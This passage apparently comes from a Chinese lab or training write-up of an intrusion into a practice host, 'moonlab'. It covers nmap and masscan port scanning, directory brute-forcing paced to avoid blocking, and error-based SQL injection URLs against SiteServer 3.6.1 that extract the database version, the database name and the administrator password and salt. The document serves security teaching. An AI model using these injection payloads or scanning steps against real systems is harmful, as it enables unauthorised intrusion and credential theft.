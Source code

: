 然后对所发现的主机进行端口扫描，同样也有不同工具来进行端口扫描：  
1、nmap  
nmap -sS -p 1-65535 -v 192.168.202.183  
以上参数：  
\-P 指定端口扫描  
\-V 详细信息  
\-sS、TCP SYN扫描（半开扫描）： 只向目标发出SYN数据包，如果收到SYN/ACK响应包就认为目标端口正在监听，并立即断开连接；否则认为目标端口并未开放。  
\-sT、TCP 连接扫描： 这是完整的TCP扫描方式，用来建立一个TCP连接，如果成功则认为目标端口正在监听服务，否则认为目标端口并未开放。  
\-sF、TCP FIN扫描： 开放的端口会忽略这种数据包，关闭的端口会回应RST数据包。许多防火墙只对SYN数据包进行简单过滤，而忽略了其他形式的TCP攻击包。这种类型的扫描可间接检测防火墙的健壮性。  
\-sU、UDP扫描： 探测目标主机提供哪些UDP服务，UDP扫描的速度会比较慢。  
![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/1630311910-cbbaf2ea621e6980b4e9a82eaf056380.png)  
识别对应的端口  
nmap -sV -A 192.168.202.183 -p 80,53,6588,5985,3389,135,21,999 -oA myAttackPorts  
\-sV: 探测相应服务版本号  
\-A: 综合扫描，包含1-10000的端口ping扫描，操作系统扫描，脚本扫描，路由跟踪，服务探测  
\-oA：同时在三个主要的格式文档输出扫描结果  
![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/1630311910-88738e865c0acb3337270022c88cf32d.png)  
![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/1630311910-949543450e9fc82c11c59b4a36da34ee.png)  
使用xsltproc美化结果输出文档：  
xsltproc -o attck.html mode.xsl myAttackPorts.xml  
![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/1630311910-417d54f415cd9803408837e3fba3516a.png)

2、masscan  
sudo masscan -p 1-65535 192.168.202.183 --rate=1000  
常用参数：  
\-p <ports,--ports <ports>> 指定端口进行扫描  
\--banners 获取banner信息，支持少量的协议  
\--rate <packets-per-second> 指定发包的速率，默认的速率是100包/秒  
![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/1630311910-55cd27d3dda619099ec650f0a985b59d.png)

绑定域名，再对其www.moonlab.com进行目录爆破，  
![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/1630311910-e2929af477507adbe9ac1ee9c70f3e65.png)  
如果用kali自带的dirbuster工具会因为UA和速度等问题被拦截：  
![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/1630311910-828fa536eed236582440bd6749f438f1.png)  
![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/1630311910-cde8520f26bb0285da0135c7478bc01c.png)  
所以我们可以自己编写脚本进行目录的爆破，每间隔0.5秒进行请求操作：  
![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/1630311910-670c2478e3730fff6e3cc140d30cad95.png)  
![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/1630311910-09f533fc5836fe67ea830a0c473a2734.png)

## 7.2 web漏洞

访问网址可知，这是siteserver3.6.1，从网上找到该版本报错注入的相关poc，获得数据库版本信息：  
http://www.moonlab.com/usercenter/platform/user.aspx?UnLock=sdfe%27&UserNameCollection=test%27)%20and%20char(71)%2Bchar(65)%2Bchar(79)%2Bchar(74)%2Bchar(73)%2B@@version=2;%20--  
![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/1630311910-30de43e9dab1ed68f0d7f31ebcf54b36.png)  
获得数据库名：  
http://www.moonlab.com/usercenter/platform/user.aspx?UnLock=sdfe%27&UserNameCollection=test%27)%20and%20db\_name()=~2;%20--  
![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/1630311910-8918f5483b07738a5c7d8f3588632d10.png)  
根据查询数据库语句相继获取到后台的用户名、密码及salt值：  
http://www.moonlab.com/usercenter/platform/user.aspx?UnLock=sdfe%27&UserNameCollection=test%27)%20and%20~1=(SELECT%20TOP%201%20\[Password\]%20FROM%20\[bairong\_Administrator\]);%20--  
![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/1630311910-b1f1e67cc86a0467003216d68a67613d.png)  
![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/1630311910-601c7fc49d2073491f6afd24dd24b0fe.png)  